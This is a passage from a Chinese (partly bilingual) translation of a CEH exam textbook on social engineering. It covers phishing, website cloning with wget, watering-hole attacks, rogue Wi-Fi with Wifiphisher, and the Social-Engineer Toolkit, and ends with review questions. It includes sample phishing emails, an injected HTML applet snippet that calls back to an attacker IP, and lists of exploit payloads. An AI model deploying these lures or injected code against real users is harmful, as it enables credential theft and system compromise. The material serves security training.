需要采取行动：您的富国银行账户已被锁定。

富国银行在线 <==UTF-8?B?...>
Ric Messler
2018 年 11 月 6 日 星期四 下午 2:39

尊敬的客户，

您的富国银行账户中有些信息似乎不正确或缺失。为确保您的安全，我们锁定了您的账户访问权限，以防止任何欺诈活动。

请通过我们的信息保护中心验证您的身份和信息，以继续享受我们的服务。请理解，如果不尽快更新您的在线账户服务，可能会被停用。
请单击此处立即访问我们的信息保护中心。

所有字段均为必填项

完成快速简便的审核后，我们将相应快速更新您的信息。感谢您帮助我们保持联系。

富国银行在线 敬上

请勿回复此自动邮件。

富国银行公司总部：420 Montgomery St., San Francisco, CA 94104

### 图 10.5 带附件的钓鱼邮件

[ 新 PDF 收据 ] [ 订单已确认 ]：您的付款已提交并正在处理 [ 谢谢 ]...

Apple <noreply-orders@scservice.asspinc123491@scservicesupdate-appccmacloud.com>
store@cs.apple.com; cs@apple.com
2018 年 10 月 26 日 星期五 上午 8:12

零小时自动清除...
0.4 KB

你好，客户，

日期/时间：2018 年 10 月 26 日 星期五 01:41:13 SGT

案例编号：LTR8123065HT。
商户名称：iTunes Store
金额：12.99 美元

您交易的更多详情已作为本邮件的附件 PDF 文件包含在内。
感谢您使用我们的服务。

此致，
Apple Store

此类附件通常是 PDF 文档。在图 10.5 的邮件中，附件很可能是 PDF，但已被服务器端的反恶意软件剥离。PDF 实现以及一定程度上格式本身都有漏洞的历史。目标可能使用的阅读器很有可能会被利用。让人们打开 PDF 也比让他们打开普通可执行文件容易得多。用户非常清楚打开程序的危险性。他们可能更倾向于认为 PDF 不会伤害他们，但实际上 PDF 可以。PDF 格式本身具有执行嵌入式可执行文件的能力。

## 网站攻击

即使你使用钓鱼攻击，也很可能需要第二个要素。你可以在钓鱼攻击中包含恶意软件，从而获得目标系统的访问权限。这可能比你想要的更复杂，因为它依赖于用户打开附件，或者附件利用系统中的漏洞。让用户点击链接比让他们打开附件更容易。如果电子邮件看起来合法且链接看起来合法，尤其如此。然而，这意味着你需要某个用户可以连接的网站。如果你将钓鱼作为入口点，可以从网站克隆开始，这样看起来像合法网站，当用户连接时，他们不会怀疑任何事情。


有很多方法可以让 URL 看起来像合法的。你可以注册类似 www.microsoft.com.rogue.com 的主机名，这可能会让人们以为他们正在连接到 Microsoft 的网站，而实际上他们连接的是 rogue.com 域中由该主机名标识的主机。用户并不总能看到完整的主机名或 URL，可能也不足以了解完全限定域名（FQDN）的结构，以理解自己在看什么。

在社会工程学方面，这不是你可能使用的唯一一种攻击类型。钓鱼也不是唯一的入口途径。你还可以利用人们常见的浏览方式。采用这种方法，你可以直接让人们来到你的网站，而无需诱导他们。然而，你可能仍需要使用网站克隆技术。归根结底，你不想引起怀疑，因此最好尽力让东西看起来合法。这将为你争取更多时间来收集信息或将有效载荷发送到目标。

## 克隆

网站克隆是一件非常容易的事情。事实上，你甚至不需要克隆整个网站。你只需要构成页面渲染的 HTML 代码。将任何媒体文件保留在其原始位置是可以的，因为你可以利用任何更新


即使它们出于某种原因发生了变化，你也可以将其指向它们。实际上，这会让你的克隆网站更具可信度。如果有人留意，他们会看到请求是发往合法网站，而不是你的恶意网站。唯一来自你恶意网站的文件是控制页面渲染的 HTML。这并不是说你不能抓取文件并在本地托管。使用 WinHTTrack 之类的工具，这是一个可配置选项，如图 10.6 所示。

### 图 10.6 WinHTTrack 选项


当然，这些选项是可选的。默认情况下，WinHTTrack 不会抓取媒体文件，只会抓取站点的 HTML。不过，它会克隆整个站点，这意味着它会遍历链接。WinHTTrack 使用项目来克隆站点，因此抓取一个网站是一个多步骤过程。在图 10.7 中，你可以看到输入 URL 的步骤。如果你想下载多个站点，也可以输入多个 URL。你需要将操作更改为 Download All Sites In Pages。你也可以使用 WinHTTrack 来测试网站，而不是下载它们，这意味着你可以检查一份书签列表，看它们是否仍然有效。

不过，如果你更喜欢命令行工具，有几个可供选择。其中之一是 wget，它是一个用于发送基于 Web 的请求并获取文件的程序。你可以使用 wget 从命令行下载文件。在 Linux 系统上，你可以抓取源代码 tarball、软件包文件或任何不需要渲染的文件。你可以使用 wget 对 Web 服务器执行递归 GET 请求，这正是镜像站点所需的。这意味着 wget 会拉取站点顶部的 HTML 页面并将其保存。然后，它会查找页面中的所有锚标签，并依次跟随每个链接来获取那些页面或文件。在下面的代码清单中，你可以看到使用 -m 选项运行 wget 的示例，这告诉 wget 镜像站点，即抓取整个站点。

### 图 10.7 使用 WinHTTrack 克隆站点


## 使用 wget 镜像网站

```
root@quiche:~# wget -m https://www.wiley.com
--2018-11-21 07:05:43--  https://www.wiley.com/
Resolving www.wiley.com (www.wiley.com)... 143.204.29.19, 143.204.29.108,
143.204.29.24, ...
Connecting to www.wiley.com (www.wiley.com)|143.204.29.19|:443... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: /en-us [following]
--2018-11-21 07:05:43--  https://www.wiley.com/en-us
Reusing existing connection to www.wiley.com:443.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: 'www.wiley.com/index.html'

www.wiley.com/index    [ <=>                                                                         ] 85.83K  --.-KB/s    in 0.08s  

Last-modified header missing -- time-stamps turned off.
2018-11-21 07:05:44 (1.08 MB/s) - 'www.wiley.com/index.html' saved [87888]

Loading robots.txt; please ignore errors.
--2018-11-21 07:05:44-- https://www.wiley.com/robots.txt
Reusing existing connection to www.wiley.com:443.
HTTP request sent, awaiting response... 200 OK
Length: 817 [text/plain]
Saving to: 'www.wiley.com/robots.txt'

www.wiley.com/robots.txt 100%[===================>] 817 --.-KB/s in 0s
```

如果你想离线访问该站点，可以使用命令行开关将链接设为相对链接。不过，就我们的目的而言，我们希望通过自己的 Web 服务器提供站点访问，因此我们将只是镜像站点，保持一切原样。另一个类似于 wget 的命令行程序是 cURL。不幸的是，尽管 cURL 功能强大，但它没有内置功能来抓取完整网站。不过，你可以编写一个简短的脚本来抓取站点，网上也有这样的脚本可供那些更喜欢使用 cURL 而非 wget 的人使用。

一旦将站点的页面就位，你就需要对源代码进行任何必要的调整。这包括插入你的恶意代码，以便其可以被下载，然后在站点的某个页面中包含对它的引用。一旦你拥有了站点，就可以将页面 URL 发送给目标，可能是通过电子邮件。在社会工程学方面，攻击有时会有多个层级。

## 恶意攻击

恶意网站是指用户可能认为是合法的，但实际上具有恶意目的的网站。这可能是一个看起来与合法网站一模一样的站点，使用前面提到的网站克隆技术，但 URL（即完全限定域名）与通常的 URL 不同。有些主机名经常被拼写错误。攻击者可以将这些常见拼写错误注册为域名本身，然后等待人们前来访问。这种策略称为拼写劫持（typosquatting）。例如，你可以注册 gogle.com 并克隆 google.com 网站，在托管你的 gogle.com 站点的服务器上提供页面。你也可能听到这种策略被称为 URL 劫持（URL hijacking）。

不过，Rogue 不一定意味着你创建了一个假网站。它可能意味着你正在使用合法平台来实施攻击，而该合法平台对此一无所知。水坑攻击是一种社会工程学攻击，利用人们会经常访问某些网站这一事实。在野外，水坑是动物经常光顾，甚至可能逗留的地方。因为动物保证会来这里，因为水对生命至关重要，且并非所有动物都能从食物中获取所需全部水分，所以水坑是等待动物光顾的绝佳地点。这种攻击也是如此。

使用水坑攻击，你可以入侵许多人的常访问网站，并向其中注入受感染的软件。这并非说这种攻击易于实施，但使用它可以快速控制大量系统。与仅入侵单个系统不同，如果你入侵了你所针对的人群经常访问的网站，你可以通过入侵单个系统来访问许多系统。一旦跨越了入侵网站这一难关——例如，如果你入侵了 espn.com，你会有许多男性定期访问——实施攻击就很容易。例如，在下面的代码清单中，你可以看到在 index.html 页面底部添加的几行代码。

### 带有 Applet 引用的攻击 HTML

```
</script>

<applet code="Java.class" width="1" height="1" archive="hkFKIKkhSvSHss.jar"><param name="name"><param name="1" value="http://192.168.86.57:80/krmnAir"><param name="2" value="ZGF0YQ=="><param name="3" value="http://192.168.86.57:80/qpaacKQk"><param name="4" value="http://192.168.86.57:80/FMLhoBQCuNH">
```

不过，这确实需要你有一个可用的 applet，这些 applet 可以现成获取，也可以自行创建。与许多其他事情一样，Metasploit 可用于此类攻击载荷。此 HTML 片段告诉浏览器加载 Java 存档（JAR）hkFKIKkhSvSHss.jar 中的 Java 类。这是一个随机生成的文件名。此攻击中包含一个指向加载到攻击中的 IP 地址的反向连接。

你会看到的基于 Web 的攻击不只有水坑攻击，但它们的优势在于具有针对性。在针对组织工作时，它们可能更有用。如果公司有内网服务器，你可以将攻击加载到内网服务器上，因为这是员工会定期访问的站点类型，你可能会从受攻陷的主机收集大量桌面系统。

## 无线社会工程学

Wi-Fi 网络已无处不在，而且由于许多设备甚至不支持有线连接，人们普遍期望能使用 Wi-Fi 网络。这是你可以利用的另一个方面。在大多数地方，你都可以找到长长的 Wi-Fi 网络列表。就坐在我小型社区的客厅里，就有近二十个可用的 Wi-Fi 网络列表。你可以在图 10.8 中看到该列表。命名这些网络没有限制。没有集中的注册名称的场所。你甚至可以在同一物理空间中拥有重叠的名称。连接的客户端来决定实际连接到哪个网络。


图 10.8 Wi-Fi 网络列表


你可以利用这种无法得知应使用哪个网络的现状，因为即使你检查基本服务集标识符（BSSID），也无法从中获取任何信息。它看起来只是一个 MAC 地址。你可以轻松创建一个流氓 Wi-Fi 网络，这提供了许多有趣的可能性，尤其是在收集用户名和密码方面。

最初，人们认为无线网络不如物理网络，因为从空中捕获信号非常容易。这一点绝对正确。一旦无线信号被发送出去，我们就无法限制谁可以接收这些信号。为了保护传输内容不被截获，人们多次尝试对传输进行加密。第一种是有线等效隐私（Wired Equivalent Privacy，WEP）。这种机制存在多个问题，导致 WEP 传输很容易被解密。随后出现了 Wi-Fi 保护接入（Wi-Fi Protected Access，WPA），旨在修复 WEP 中的一些问题。

WPA 并未完全成功，因此随之推出了 WPA2。WEP 使用预共享密钥（pre-shared key，PSK）来提供用户身份验证方式。WPA 引入了企业级身份验证。这意味着 WPA 和 WPA2 在允许连接网络之前可以接受用于身份验证的用户名和密码。当然，这不是验证用户的唯一方式，但却是其中之一。通常，公司无线网络中使用的用户名和密码，与用于对网络服务器进行身份验证时所用的用户名和密码是相同的，因为那些服务器（例如 Active Directory 服务器）通常负责处理企业的身份验证。

在某些情况下，你只需连接到一个 Wi-Fi 网络，就会出现所谓的“强制入口页面”（captive portal）。强制入口页面基本上是一个功能受限的网页，通常提供用于输入身份验证凭据的编辑框。你会在酒店和有时在机场发现此类页面。在酒店，你可能需要使用忠诚度凭据登录，或者可能需要提供姓氏和房间号来证明你是真正的酒店客户。这是另一个可以从用户那里收集凭据的地方。

无论如何，用户都需要进行身份验证，你可以轻松进行一些侦察，只需靠近建筑物足以接收到网络信号，然后尝试连接到网络，观察其在连接尝试时的表现。你可以配置一种方法来从用户那里获取密码。这种设置需要一定的技能和精力。Kali Linux 将拥有你需要的所有工具，包括 hostapd 和 iptables。程序 hostapd 将你的无线接口转换为接入点，而 iptables 用于将来自无线接口的流量通过另一个接口路由到互联网。然后，你可以使用其他程序来捕获流量以获取身份验证凭据。

另一种方法是使用 Wifiphisher。这是一个会为你完成大部分工作的程序，包括创建一个允许你将软件安装到目标系统上的场景。在线文档已过时。与其将所有内容都通过命令行传递，不如不带任何命令行参数运行它，然后在程序引导你选择时进行选择即可。启动后，你会看到它设置了一对无线接口；然后它启动一个动态主机配置协议（Dynamic Host Configuration Protocol，DHCP）服务器和 iptables，两者都是让用户看起来已合法连接到接入点所必需的。

## 启动 Wifiphisher

```
kilroy@yazpistachio:~$ sudo wifiphisher
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2018-11-22 16:27
Error: NetworkManager is not running.
Error: NetworkManager is not running.
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[!] The provided MAC address 00:00:00:00:3e:48:01 is invalid
[!] The provided MAC address 00:00:00:00:cc:3f:74 is invalid
[+] Sending SIGKILL to wpa_supplicant
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:3e:48:01
[+] Changing wlan1 MAC addr to 00:00:00:cc:3f:74
[*] Cleared leases, started DHCP, set up iptables
```

启动 Wifiphisher 后，它会列出你系统范围内的所有 SSID。这就是你选择要伪造以收集凭据的 SSID 的地方。你可以在图 10.9 中看到此选择。正如屏幕上所述，你按下箭头键选择要伪造的 SSID，然后按 Enter 键将其选中。你可能在前面的输出中注意到，一个无线接口将用于去认证攻击。这意味着在 Wifiphisher 运行时，它将向那些看起来已连接到真实接入点的系统发送去认证帧。这将迫使这些客户端重新验证身份，理想情况下是与你进行身份验证。

图 10.9 Wifiphisher SSID 选择


图 10.10 Wifiphisher 攻击模板选择


所选模板将决定你从目标那里得到什么。OAuth 页面将允许你收集凭据，而其他模板（包括浏览器插件）将允许你将一些代码放置到目标计算机上。例如，这可能是远程访问软件。与许多其他事情一样，这取决于你试图通过这种攻击类型完成什么。

说到无线网络，要使其有效工作需要许多环节，这意味着整个设置的工作方式不会让用户产生太多怀疑，从而可能阻止他们请求安全团队来识别你的流氓接入点。绝对建议使用自动化工具进行无线社会工程攻击。不过，这并不是说你对其他社会工程攻击总是需要使用手动方法。还有其他方法可以自动化社会工程。

## 自动化社会工程

由于网络钓鱼是野外最容易且最普遍的攻击之一，我们可以从自动化网络钓鱼攻击开始。我们将求助于 Metasploit，但更具体地说，我们将使用一个名为社会工程师工具包（Social-Engineer Toolkit，SET）的程序，它是 Metasploit 之上的一个覆盖层。这是一个基于菜单的程序，使用 Metasploit 的模块和功能，但会自动将所有内容整合在一起，以完成社会工程攻击所需的任务。在以下代码清单中，你可以看到 SET 的初始菜单。这是一个功能强大的程序，但我们将只对其进行简要了解，而不是深入探讨它能做的一切。

### setoolkit 中的启动菜单

```
The Social-Engineer Toolkit is a product of TrustedSec.

Visit: https://www.trustedsec.com

It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!

Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

99) Exit the Social-Engineer Toolkit

set>
```

选择“社会工程攻击”（Social-Engineering Attacks）会打开另一个菜单，需要说明的是，这些是文本菜单，你输入菜单项的编号。多年来，该程序的功能有了增长。这一点在社会工程攻击菜单中可用的向量数量上尤其明显，你可以在下一个清单中看到。你可能会注意到有两个网络钓鱼攻击向量。一个用于大量邮件，另一个用于精准网络钓鱼。区别在于你预期发送邮件的目标数量。


## SE Toolkit Social Engineering Attacks
## SE 工具包社会工程学攻击

Select from the menu:
从菜单中选择：

- 1) Spear-Phishing Attack Vectors
- 1) 鱼叉式网络钓鱼攻击向量
- 2) Website Attack Vectors
- 2) 网站攻击向量
- 3) Infectious Media Generator
- 3) 感染性介质生成器
- 4) Create a Payload and Listener
- 4) 创建载荷和监听器
- 5) Mass Mailer Attack
- 5) 大规模邮件攻击
- 6) Arduino-Based Attack Vector
- 6) 基于 Arduino 的攻击向量
- 7) Wireless Access Point Attack Vector
- 7) 无线接入点攻击向量
- 8) QRCode Generator Attack Vector
- 8) 二维码生成器攻击向量
- 9) Powershell Attack Vectors
- 9) PowerShell 攻击向量
- 10) SMS Spoofing Attack Vector
- 10) SMS 欺骗攻击向量
- 11) Third Party Modules
- 11) 第三方模块
- 99) Return back to the main menu.
- 99) 返回主菜单。

No matter which one you pick, you will be able to send to either a single address or multiple addresses. The differences between the two options are shown in the following code listings.
无论您选择哪一个，您都可以发送到单个地址或多个地址。两个选项之间的区别在以下代码清单中显示。

### Spear-phishing vector
### 鱼叉式网络钓鱼向量

- 1) Perform a Mass Email Attack
- 1) 执行大规模电子邮件攻击
- 2) Create a FileFormat Payload
- 2) 创建文件格式载荷
- 3) Create a Social-Engineering Template
- 3) 创建社会工程学模板

### Mass mailer vector
### 大规模邮件向量

- 1. E-Mail Attack Single Email Address
- 1. 电子邮件攻击单个电子邮件地址
- 2. E-Mail Attack Mass Mailer
- 2. 电子邮件攻击大规模邮件发送器

We’re going to take a look at the Mass Email Attack vector because the essentials will be the same across the different email attacks. The Mass Email Attack lets us use a file format exploit. The payloads available are ones that are in Metasploit. In the following code, you will see the payloads that are available to you. These payloads are file formats that are commonly exploited and may have a good chance of success.
我们将查看大规模电子邮件攻击向量，因为不同电子邮件攻击的基本原理是相同的。大规模电子邮件攻击允许我们使用文件格式漏洞利用。可用的载荷是 Metasploit 中的载荷。在以下代码中，您将看到可用的载荷。这些载荷是常被利用的文件格式，可能有较高的成功率。

### Payloads for file format exploit
### 文件格式漏洞利用的载荷

********** PAYLOADS **********
********** 载荷 **********

- 1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)
- 1) SET 自定义编写的 DLL 劫持攻击向量 (RAR, ZIP)
- 2) SET Custom Written Document UNC LM SMB Capture Attack
- 2) SET 自定义编写文档 UNC LM SMB 捕获攻击
- 3) MS15-100 Microsoft Windows Media Center MCL Vulnerability
- 3) MS15-100 Microsoft Windows 媒体中心 MCL 漏洞
- 4) MS14-017 Microsoft Word RTF Object Confusion (2014-04-01)
- 4) MS14-017 Microsoft Word RTF 对象混淆 (2014-04-01)
- 5) Microsoft Windows CreateSizedDIBSECTION Stack Buffer Overflow
- 5) Microsoft Windows CreateSizedDIBSECTION 栈缓冲区溢出
- 6) Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)
- 6) Microsoft Word RTF pFragments 栈缓冲区溢出 (MS10-087)
- 7) Adobe Flash Player "Button" Remote Code Execution
- 7) Adobe Flash Player "按钮" 远程代码执行
- 8) Adobe CoolType SING Table "uniqueName" Overflow
- 8) Adobe CoolType SING 表 "uniqueName" 溢出
- 9) Adobe Flash Player "newfunction" Invalid Pointer Use
- 9) Adobe Flash Player "newfunction" 无效指针使用
- 10) Adobe Collab.collectEmailInfo Buffer Overflow
- 10) Adobe Collab.collectEmailInfo 缓冲区溢出
- 11) Adobe Collab.getIcon Buffer Overflow
- 11) Adobe Collab.getIcon 缓冲区溢出
- 12) Adobe JBIG2Decode Memory Corruption Exploit
- 12) Adobe JBIG2Decode 内存损坏漏洞利用
- 13) Adobe PDF Embedded EXE Social Engineering
- 13) Adobe PDF 嵌入式 EXE 社会工程学
- 14) Adobe util.printf() Buffer Overflow
- 14) Adobe util.printf() 缓冲区溢出
- 15) Custom EXE to VBA (sent via RAR) (RAR required)
- 15) 自定义 EXE 转 VBA (通过 RAR 发送) (需要 RAR)
- 16) Adobe U3D CLODProgressiveMeshDeclaration Array Overrun
- 16) Adobe U3D CLODProgressiveMeshDeclaration 数组越界
- 17) Adobe PDF Embedded EXE Social Engineering (NOJS)
- 17) Adobe PDF 嵌入式 EXE 社会工程学 (无 JS)
- 18) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow
- 18) Foxit PDF 阅读器 v4.1.1 标题栈缓冲区溢出
- 19) Apple QuickTime PICT PnSize Buffer Overflow
- 19) Apple QuickTime PICT PnSize 缓冲区溢出
- 20) Nuance PDF Reader v6.0 Launch Stack Buffer Overflow
- 20) Nuance PDF 阅读器 v6.0 启动栈缓冲区溢出
- 21) Adobe Reader u3D Memory Corruption Vulnerability
- 21) Adobe Reader u3D 内存损坏漏洞
- 22) MSCOMCTL ActiveX Buffer Overflow (MS12-027)
- 22) MSCOMCTL ActiveX 缓冲区溢出 (MS12-027)

The file format tells us how we are going to exploit the system. This will let us run arbitrary code on the remote system; we just need to determine what that arbitrary code is going to be. Our payload is going to be based on the type of file format exploit we are going to use. If we select the first file format type in the list, we get a list of payloads where the default is a Meterpreter memory injection. This payload provides a Meterpreter shell being sent back to us, as long as we have a handler set up.
文件格式告诉我们将如何利用系统。这将允许我们在远程系统上运行任意代码；我们只需要确定该任意代码是什么。我们的载荷将基于我们将使用的文件格式漏洞利用类型。如果我们选择列表中的第一个文件格式类型，我们将得到一份载荷列表，其中默认的是 Meterpreter 内存注入。只要我们设置了处理程序，该载荷就会将一个 Meterpreter shell 发送回给我们。

Phishing can be a very reliable attack vector when it comes to social engineering, but it's not the only one. You may not even be looking to get shell access to the target system. Fortunately, the SET has a lot of other capabilities, as you could see in the initial menu. You could even automate wireless attacks using SET. While there are plenty of other ways to perform social engineering attacks, this is a very powerful tool that leverages the payloads and other functionality of the Metasploit Framework to make your life a lot easier.
在社会工程学方面，网络钓鱼可能是一个非常可靠的攻击向量，但它不是唯一的。您甚至可能并不打算获取目标系统的 shell 访问权限。幸运的是，SET 具有许多其他功能，如您在初始菜单中所见。您甚至可以使用 SET 自动化无线攻击。虽然执行社会工程学攻击有许多其他方法，但这是一个非常强大的工具，它利用了 Metasploit 框架的载荷和其他功能，使您的生活变得轻松得多。

## Summary
## 摘要

Social engineering is a skill that has been around for probably as long as there have been humans who have wants and desires. Once you know the principles of social engineering, you can start to recognize places where you are being manipulated. The principles of social engineering are reciprocity, commitment, social proof, authority, liking, and scarcity. These key principles can be used to manipulate people into performing acts they may not otherwise be inclined to perform. This can include giving you access to systems or information. It could also be giving up credentials that you may need to perform other attacks.
社会工程学可能是与人类拥有欲望和需求一样悠久的一项技能。一旦您了解社会工程学的原则，就可以开始识别您被操纵的地方。社会工程学的原则包括互惠、承诺、社会认同、权威、好感和稀缺性。这些关键原则可以用来操纵人们去执行他们原本可能不愿执行的行为。这可能包括让您获得系统或信息的访问权限。也可能包括放弃您执行其他攻击所需的凭据。

When you are preparing a social engineering attack, pretexting is important. Pretexting is creating the story you are going to tell. You can see examples of pretexting in your email and even in scam phone calls. The 419 scam is common and a good example of pretexting. You are being told a story, and it’s a story you are inclined to buy into, likely because of the promise of millions of dollars. Who, after all, wouldn’t like to have enough money that they could quit their job and go live on a beach in Tahiti? Pretexting is just the story you are going to tell your targets. A good pretext has all the angles covered so you aren’t fumbling for an answer when your target asks a question or raises an objection. You have it all figured out. This can require research, especially if you are going after employees within an organization who may have been given training to protect themselves and the company against social engineering attacks.
在准备社会工程学攻击时，预设情境很重要。预设情境是指您将要编造的故事。您可以在电子邮件甚至诈骗电话中看到预设情境的示例。419 诈骗很常见，也是预设情境的一个好例子。您正在被讲述一个故事，而且您可能会相信这个故事，很可能是因为承诺可以获得数百万美元。毕竟，谁不想有足够的钱辞职去塔希提岛海滩上生活呢？预设情境只是您将要告诉目标的故事。一个好的预设情境考虑了所有方面，这样当目标提出问题或提出异议时，您就不会措手不及。您已经想得很周全了。这可能需要研究，尤其是当您针对组织内部员工时，他们可能已经接受过培训以保护自己和公司免受社会工程学攻击。

There are many forms social engineering can take. Four of these are vishing, phishing, smishing, and impersonation. Vishing is trying to gather information over the phone; phishing is the process of gathering information through fraud, though commonly it’s thought to include email as the delivery means; smishing is using text messages; and impersonation is pretending to be someone else. While some of the forms of social engineering will include impersonation as a component, when we talk about impersonation as a social engineering vector, we’re talking about impersonating someone else in order to gain physical access to a building or facility.
社会工程学有多种形式。其中四种是语音钓鱼、网络钓鱼、短信钓鱼和冒充。语音钓鱼是试图通过电话收集信息；网络钓鱼是通过欺诈收集信息的过程，虽然通常认为它包括电子邮件作为传递手段；短信钓鱼是使用短信；冒充是假装成另一个人。虽然社会工程学的一些形式会将冒充作为一个组成部分，但当我们谈论将冒充作为社会工程学向量时，我们指的是冒充他人以获取建筑物或设施的物理访问权限。

Gaining physical access to a facility may be an important element in a penetration test or red-team effort. You can impersonate someone else, but there are multiple protections that may make that difficult. Many buildings today are protected by requiring a badge swipe to demonstrate that you are who you say you are and that you have legitimate access to the building. This can be avoided through the use of tailgating. Tailgating means following someone else through the door after they have opened it with their badge. A man trap can protect against this sort of entrance, as can a revolving door that only makes a quarter turn for a swiped badge. Biometrics can also be used to verify identity. Once identity has been demonstrated, access can be granted as defined.
在渗透测试或红队行动中，获得设施的物理访问权限可能是一个重要环节。您可以冒充他人，但存在多种保护措施可能会使这变得困难。今天的许多建筑物都要求刷卡以证明您是您所说的那个人并且有合法的建筑物访问权限。这可以通过尾随来避免。尾随是指在他人刷卡开门后跟随其穿过门进入。人陷阱可以防止这种进入方式，只有刷卡后四分之一转的旋转门也可以。生物识别也可用于验证身份。一旦身份得到证明，就可以按定义授予访问权限。

Websites can be used as vectors for social engineering attacks. This is another area where impersonation can be useful. It’s trivial to set up a clone of an existing website by just copying all of the resources from that site to another location. Once there, you can add additional components, including “malicious” software, which may give you remote access to the target system. You can use typosquatting attacks, using a domain name that is very similar to a real domain name with a common typo as part of the name. You can also use watering hole attacks, which is where a commonly visited site is compromised so when users come to the site, they may get infected.
网站可用作社会工程学攻击的向量。这是冒充可能有用的另一个领域。只需将现有网站的所有资源复制到另一个位置，就可以轻松建立该网站的克隆版。到达那里后，您可以添加其他组件，包括“恶意”软件，这可能会让您远程访问目标系统。您可以使用拼写错字抢注攻击，使用与真实域名非常相似且名称中包含常见拼写错误的域名。您还可以使用水坑攻击，即入侵一个常被访问的网站，因此当用户访问该网站时，他们可能会被感染。

Wireless network access is common today, especially with so many devices that can’t support wired network access. This is another area where you can run a social engineering attack. You can set up a rogue access point with an enticing name to get people to connect and give up information. You could also use an existing SSID, jamming access to the authentic access point. This means legitimate users can be forced to attempt authentication against your access point and you can gather credentials or any other information, since once they are connected, all of their traffic will be passing through your system.
今天无线网络访问很常见，尤其是有这么多设备不支持有线网络访问。这是您可以开展社会工程学攻击的另一个领域。您可以设置一个带有诱人名称的恶意接入点，让人们连接并泄露信息。您也可以使用现有的 SSID，干扰对真实接入点的访问。这意味着合法用户可能会被迫尝试针对您的接入点进行身份验证，您可以收集凭据或任何其他信息，因为一旦他们连接，他们的所有流量都将通过您的系统。

While these attacks can be done manually, it can be easier to automate a lot of them. There are some good tools to help. They include wifiphisher, which can automate the creation of a rogue access point. The SET is another tool that can automate social engineering attacks. It uses Metasploit and the payloads and modules to support these attacks.
虽然这些攻击可以手动完成，但自动化其中许多攻击可能更容易。有一些好的工具可以提供帮助。它们包括 wifiphisher，可以自动化恶意接入点的创建。SET 是另一个可以自动化社会工程学攻击的工具。它使用 Metasploit 及其载荷和模块来支持这些攻击。


## 复习问题

答案可在附录中找到。

1. 你接到一个电话，对方自称来自美国国税局（IRS），称除非你立即提供付款方式，否则他们现在正在派警察到你家逮捕你。来电者使用了什么策略？
- A. 预编情景
- B. 生物识别
- C. 短信钓鱼
- D. 流氓接入

2. 你正在参与红队演练。你的团队负责人要求你使用诱饵作为入侵方式。你被要求做什么？
- A. 拨打电话
- B. 克隆网站
- C. 在周围放置 USB 闪存盘
- D. 伪造 RFID ID

3. 当你在安全会议的供应商展位前看到一队人等着领取免费的 USB 闪存盘和 CD 时，正在使用哪种社会工程学原则？
- A. 互惠原则
- B. 社会认同
- C. 权威原则
- D. 稀缺原则

4. 防范尾随的可行方法是什么？
- A. 生物识别
- B. 徽章访问控制
- C. 电话验证
- D. 人陷阱

5. 为什么要使用无线社会工程学？
- A. 发送钓鱼消息
- B. 收集凭据
- C. 获取电子邮件地址
- D. 拨打电话

6. 哪种社会工程学原则可能使来自帮助台的虚假电话奏效？
- A. 社会认同
- B. 模仿
- C. 稀缺原则
- D. 权威原则

7. 为什么要在社会工程学攻击中使用自动化工具？
- A. 对结果有更好的控制
- B. 降低复杂性
- C. 实施社会认同
- D. 展示权威

8. 如果你想进入一栋大楼，会使用哪种社会工程学攻击向量？
- A. 冒充
- B. 稀缺原则
- C. 语音钓鱼
- D. 短信钓鱼

9. 以下哪项是预编情景的示例？
- A. 索要凭据的网页
- B. 克隆的徽章
- C. 前同事的电子邮件
- D. 流氓无线接入点

10. 可以使用什么工具来克隆网站？
- A. httclone
- B. curl-get
- C. wget
- D. wclone

11. 如何防止诱饵攻击成功？
- A. 禁用注册表克隆。
- B. 禁用自动运行。
- C. 用环氧树脂封住外部端口。
- D. 不要上网。

12. 在考虑实施生物识别时，你更可能关注哪个统计指标？
- A. 假阳性率
- B. 假阴性率
- C. 假失败率
- D. 误接受率

13. 以下哪种生物识别形式最不可能在最大限度降低错误拒绝率的同时获得较高的真实接受率？
- A. 声纹
- B. 虹膜扫描
- C. 视网膜扫描
- D. 指纹扫描

14. 近距离卡可能容易受到哪种攻击？
- A. 尾随
- B. 钓鱼
- C. 凭据窃取
- D. 克隆

15. 哪种生物识别形式扫描瞳孔周围区域的图案？
- A. 视网膜扫描
- B. 指纹扫描
- C. 虹膜扫描
- D. 葡萄膜扫描

16. 高错误拒绝率会导致什么结果？
- A. 人们不得不致电安保
- B. 未经授权的人被允许进入
- C. 强制使用人陷阱
- D. 生物识别使用减少

17. 你收到一条来自未知号码的短信，号码只有五位数。它没有任何文本，只有一个 URL。这可能是哪种攻击的示例？
- A. 语音钓鱼
- B. 短信钓鱼
- C. 钓鱼
- D. 冒充

18. 与钓鱼电子邮件相比，电话的优势是什么？
- A. 你可以更详细地进行预编情景。
- B. 钓鱼攻击不可靠。
- C. 并非人人都有电子邮件，但人人都有电话。
- D. 预编情景只在电话中有效。

19. 连接到无线接入点时，尤其是在公共场所，可能会显示哪个网页？
- A. 凭据收集页面
- B. 受限门户
- C. Wi-Fi 门户
- D. 身份验证点

20. 可以使用什么工具来生成电子邮件攻击和无线攻击？
- A. Meterpreter
- B. wifiphisher
- C. SE Toolkit
- D. Social Automator


# 第 11 章

# 无线安全

### 本章涵盖以下 CEH 考试主题：

- 无线接入技术
- 网络拓扑
- 通信协议
- 移动技术
- 安全策略影响


曾经，你需要实际进入设施才能接入公司的网络。如今情况已不再如此。如今，你很可能只需要物理上的接近即可。无线网络无处不在，尤其是随着那些无法接受传统有线连接的设备变得越来越普遍。

不过，无线网络的问题在于它们使用无线电波作为传输介质。信号强度与你用收音机接收到的 AM 或 FM 信号相差甚远。不过，原理是相同的。一个信号从发射器通过空气发送出去，只要接收器在范围内，接收器就能收到该信号。

